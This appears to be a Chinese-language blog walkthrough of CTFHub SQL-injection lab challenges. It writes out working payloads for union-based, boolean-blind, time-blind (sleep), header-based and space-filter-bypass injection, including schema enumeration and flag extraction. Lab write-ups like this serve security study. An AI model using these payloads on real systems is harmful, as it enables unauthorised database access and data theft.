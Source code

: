 ```yaml
---
layout: post
title: CTFHub Web SQL 注入
subtitle: CTFHub Web SQL 注入
date: 2025-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. SQL 注入

### 1.1. 整数型注入

```sql
1 #显示
1 and 1=1 #显示
-1 union select 1,2,3 #不显示
-1 union select 1,2 #显示
```

![image](https://img.ghostliner.top/J7WJ6a.png)

获取数据库和表

![image](https://img.ghostliner.top/ZlUuSZ.png)

获取 `flag` 表字段

![image](https://img.ghostliner.top/kPrwbG.png)

获取 flag

![image](https://img.ghostliner.top/WWTK7O.png)

### 1.2. 字符型注入

```sql
# 字符型确认
?id=1' and 1=1--+
?id=1' and 1=-1--+
```

![image](https://img.ghostliner.top/KfiUPt.png)

![image](https://img.ghostliner.top/wXOxLO.png)

![image](https://img.ghostliner.top/Sb52Gr.png)

![image](https://img.ghostliner.top/pfzIk3.png)

### 1.3. 报错注入

![image](https://img.ghostliner.top/HVkijc.png)

![image](https://img.ghostliner.top/h3XHx6.png)

![image](https://img.ghostliner.top/vf7Vyk.png)

![image](https://img.ghostliner.top/ZJOcZI.png)

![image](https://img.ghostliner.top/hGF5SU.png)

### 1.4. 布尔盲注

经测试只有 `query_error``query_success` 两种

布尔盲注

```sql
1 and (select count(table_name) from information_schema.tables where table_schema=database())=2 -- 表数量2
1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=4 -- 表1长度4
1 and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=4 -- 表2长度4
```

```sql
1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=100 -- 
```

![image](https://img.ghostliner.top/dNv8OM.png)

表名：flag

```sql
1 and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='flag')=1 -- 列数1
1 and length((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1))=4 -- 列长度4
```

```sql
1 and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1))=100 -- 
```

![image](https://img.ghostliner.top/CiqyVT.png)

列名：flag

```sql
1 and length((select flag from flag limit 0,1))=32 -- 
```

```sql
1 and ascii(substr((select flag from flag limit 0,1),1,1))=100 -- 
```

![image](https://img.ghostliner.top/utUqtQ.png)

`<font style="color:rgb(139, 139, 139);">ctfhub{f127288b7d5f415118ee54ed}</font>`

### 1.5. 时间盲注

```sql
1 and sleep(3) -- 数字型注入
1 and if((select count(table_name)from information_schema.tables where table_schema=database())=2,sleep(3),0) -- 表数量2
1 and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=4,sleep(2),0) -- 表1长度4
1 and if(length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=4,sleep(2),0) -- 表2长度4
1 and if(ascii(substr((select table_name from information_schema.tables where ta
ble_schema=database() limit 1,1),§1§,1))=§100§,sleep(2),0) -- 表1：news;表2：flag
1 and if((select count(column_name) from information_schema.columns where table_schema=database() and table_name='flag')=1,sleep(2),0) -- flag表列数量1
1 and if(length((select column_name from information_schema.columns where table_schema=database() and table_name='flag'))=4,sleep(2),0) -- 列1长度4
1 and if(ascii(substr((select column_name from information_schema.columns where 
table_schema=database() and table_name='flag'),§1§,1))=§100§,sleep(2),0) -- 列1名flag
```

```sql
1 and if(ascii(substr((select flag from flag),§1§,1))=§100§,sleep(2),0)
```

![image](https://img.ghostliner.top/Sp6pim.png)

`<font style="color:rgb(139, 139, 139);">ctfhub{77f14ac024782fa5cb10968e}</font>`

### 1.6. MySQL 结构

```sql
1 union select 1,2
1 union select 1,2,3
```

![image](https://img.ghostliner.top/b9MNEF.png)

确定查询两列

![image](https://img.ghostliner.top/AfgPRI.png)

![image](https://img.ghostliner.top/4UMEPQ.png)

![image](https://img.ghostliner.top/7t0OoK.png)

### 1.7. Cookie 注入

![image](https://img.ghostliner.top/2y1qfY.png)

![image](https://img.ghostliner.top/Ydxxa6.png)

![image](https://img.ghostliner.top/V80bbO.png)

![image](https://img.ghostliner.top/1fUhq6.png)

![image](https://img.ghostliner.top/9rkGla.png)

### 1.8. UA 注入

![image](https://img.ghostliner.top/G6zdMS.png)

![image](https://img.ghostliner.top/4JrTFb.png)

![image](https://img.ghostliner.top/5FVUmD.png)

![image](https://img.ghostliner.top/6X1uU5.png)

![image](https://img.ghostliner.top/MHjXKF.png)

### 1.9. Refer 注入

原请求无 refer，手动添加

![image](https://img.ghostliner.top/U7kr6W.png)

![image](https://img.ghostliner.top/VxZMBg.png)

![image](https://img.ghostliner.top/vTiliJ.png)

![image](https://img.ghostliner.top/CQheLF.png)

![image](https://img.ghostliner.top/a82fBc.png)

![image](https://img.ghostliner.top/pQM0bR.png)

### 1.10. 过滤空格

`-1 union select 1,2`

![image](https://img.ghostliner.top/leHG4y.png)

`-1/**/union/**/select/**/1,2`

![image](https://img.ghostliner.top/peQY4l.png)

```sql
-1/**/union/**/select/**/database(),group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema=database()
```

![image](https://img.ghostliner.top/AdE9IA.png)

```sql
-1/**/union/**/select/**/database(),group_concat(column_name)from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name='iwnukmmbul'
```

![image](https://img.ghostliner.top/YFXY53.png)

```sql
-1/**/union/**/select/**/database(),group_concat(pvrmhtxmxm)from/**/iwnukmmbul
```

![image](https://img.ghostliner.top/pEbgPv.png)
